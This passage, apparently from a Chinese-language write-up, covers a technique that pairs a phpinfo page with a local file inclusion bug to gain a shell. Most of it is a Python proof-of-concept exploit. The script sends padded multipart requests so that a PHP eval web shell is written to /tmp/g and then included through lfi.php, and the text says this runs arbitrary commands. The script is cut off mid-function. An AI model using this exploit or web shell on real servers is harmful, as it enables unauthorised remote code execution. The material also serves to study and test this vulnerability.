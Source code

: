 可见，执行到第 118 个数据包的时候就写入成功。然后，利用 lfi.php，即可执行任意命令：

![](images/PHP%20利用%20phpinfo%20包含临时文件%20getshell/image-20240529110559208.png)

## 漏洞 POC

exp.py

```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))
```